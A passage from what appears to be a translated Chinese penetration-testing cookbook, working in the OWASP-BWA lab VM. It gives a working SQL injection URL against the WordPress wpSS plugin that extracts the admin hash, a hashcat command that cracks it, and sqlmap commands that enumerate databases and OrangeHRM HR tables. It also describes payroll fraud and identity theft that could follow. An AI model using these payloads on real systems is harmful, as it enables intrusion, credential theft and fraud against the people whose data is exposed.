# milw0rm.com [2008-04-22]
```

1.  如果我们将前面示例中的 URL 示例应用到我们的目录结构中，我们得到以下内容：

```
http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1+and+(1=0)+union+select+1,concat(user_login,0x3a,user_pass,0x3a,user_email),3,4+from+wp_users--&display=plain
```

1.  通过上述 URL，我们将其输入到 Firefox 浏览器中并访问该页面。由于 SQL 注入，我们看到了用户（管理员）、哈希密码和 ID 为 `1` 的用户的电子邮件地址：

通过漏洞插件获取的管理员用户信息

1.  让我们将其添加到文件中，以便通过 hashcat 运行并获取密码：

```
root@kali:~/Chapter9# echo 21232f297a57a5a743894a0e4a801fc3 > wp_admin.txt
```

1.  需要注意的是，在 WordPress 版本 2.4 及之前的版本中，密码是作为未加盐的 MD5 哈希存储的，因此我们需要告诉 hashcat 格式是 MD5（`-m 0`），以使用我们保存到 `wp_admin.txt` 中的哈希，并使用本地的 `rockyou.txt` 字典：

```
hashcat -m 0 wp_admin.txt ./rockyou.txt
```

1.  Hashcat 现在将通过 `rockyou.txt` 运行并显示以下内容，其中包括管理员帐户的密码（在本例中是 `admin`）：

```
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 21232f297a57a5a743894a0e4a801fc3
Time.Started.....: Thu Aug 31 22:25:21 2017 (0 secs)
Time.Estimated...: Thu Aug 31 22:25:21 2017 (0 secs)
Guess.Base.......: File (./rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....: 3059.9 kH/s (0.24ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 20480/14343297 (0.14%)
Rejected.........: 0/20480 (0.00%)
Restore.Point....: 19456/14343297 (0.14%)
Candidates.#1....: admin -> admin
HWMon.Dev.#1.....: N/A
```

1.  拥有管理员用户账户密码后，我们可以在登录到 WordPress 实例后为所欲为，包括添加/删除账户、添加/删除插件、上传我们选择的文件等等。

在这个例子中，我们通过 SQL 注入获取了管理员用户的哈希密码，这比暴力破解更可取，因为暴力破解可能会锁定账户并提醒目标系统所有者。WPScan 有远程暴力破解攻击功能，并会尝试定位旨在防止暴力破解攻击的插件。

# 执行 SQL 注入攻击

几乎所有的模型网页应用都使用底层数据库来存储从应用配置、语言本地化、用户身份验证凭证、销售记录、病历到其他更多内容的信息。网页应用会从这些数据库中读取和写入数据，且这些应用直接面对互联网。

不幸的是，网页应用通常以允许远程用户将自己的命令插入输入表单的方式编写，这使得用户能够改变应用的行为，并可能直接访问数据库。

# 准备工作

要成功完成这一部分，你将需要以下内容：

+   按照*安装 OWASP-BWA*的食谱安装和配置 OWASP-BWA，第一章，*安装 Kali 和实验室设置*

+   你的 Kali Linux 桌面与 OWASP-BWA 实例之间的网络连接

+   在本书的 *扫描漏洞* 章节中，来自 OWASP-ZAP 的扫描结果，第九章，*Web 和数据库特定食谱*

+   你需要以用户名/密码 `admin` 登录到 `http://192.168.56.100/orangehrm/` 的 OrangeHRM 应用，并输入一些用户信息，因为 OWASP 提供的数据库中没有这些信息。

# 如何操作...

从 *扫描漏洞* 中的 OWASP-ZAP 扫描结果开始，我们将执行以下操作：

1.  正如在*黑客攻击 WordPress*中看到的，SQL 注入攻击使我们能够提取管理员用户的信息，之后通过 hashcat 破解了这些信息。我们将利用这个单一的漏洞，进一步突破不仅限于 WordPress 数据库。

1.  首先，我们需要识别底层的数据库。打开终端，在命令行输入以下内容：

```
root@kali:~/Chapter9# sqlmap -u "http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1"
```

1.  这将提供以下信息，表明它是 MySQL 5 或更高版本的服务器：

```
[03:00:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 10.04 (Lucid Lynx)
web application technology: PHP 5.3.2, Apache 2.2.14
back-end DBMS: MySQL >= 5.0
```

1.  接下来，我们需要查看目标系统上还有哪些其他数据库。从命令行运行以下命令：

```
root@kali:~/Chapter9# sqlmap -u "http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1" --dbs
```

1.  这将转储通过 SQL 注入向量访问的所有数据库列表：

```
[03:04:37] [INFO] fetching database names
[03:04:37] [INFO] the SQL query used returns 34 entries
available databases [34]:
[*] .svn
[*] bricks
[*] bwapp
[*] citizens
[*] cryptomg
[*] dvwa
[*] gallery2
[*] getboo
[*] ghost
[*] gtd-php
[*] hex
[*] information_schema
[*] isp
[*] joomla
[*] mutillidae
[*] mysql
[*] nowasp
[*] orangehrm
[*] personalblog
[*] peruggia
[*] phpbb
[*] phpmyadmin
[*] proxy
[*] rentnet
[*] sqlol
[*] tikiwiki
[*] vicnum
[*] wackopicko
[*] wavsepdb
[*] webcal
[*] webgoat_coins
[*] wordpress
[*] wraithlogin
[*] yazd
```

1.  从可用数据库的列表中，我们将选择 OrangeHRM，因为它是一个人力资源管理应用。从命令行运行以下命令，以转储 OrangeHRM 数据库中存在的表：

```
root@kali:~/Chapter9# sqlmap -u "http://192.168.56.100/wordpress/wp-content/plugins/wpSS/ss_load.php?ss_id=1" --tables -D orangehrm
```

1.  这将导出 OrangeHRM 数据库中所有表格的列表，返回的数据量相当可观，共 84 个表格。输出的列表中，您将看到一些有趣的表格，如：

hs_hr_customer                 （客户）

hs_hr_emp_directdebit     （直接存款的银行账户信息）

hs_hr_emp_passport        （护照记录）

hs_hr_employee                 （详细的员工信息）

hs_hr_users                        （HR 应用用户，可以创建/修改用户）

员工等）

1.  利用数据库中的信息，攻击者将能够提取并破解管理员的用户凭证，并以超级用户权限登录。他们可以创建一个虚假的员工，生成工资记录，并通过直接存款将工资汇到外部银行账户。他们还可以利用这些信息窃取任何员工的身份，操控他们的工资等。

需要注意的是，尽管我们开始使用的应用程序与 HR 应用程序无关，但由于它们托管在同一个 MySQL 服务器上，并且使用的用户凭证必须访问所有数据库，我们能够轻松地在数据库之间跳转，即使在这种情况下，HR 应用程序仅在内部可用。
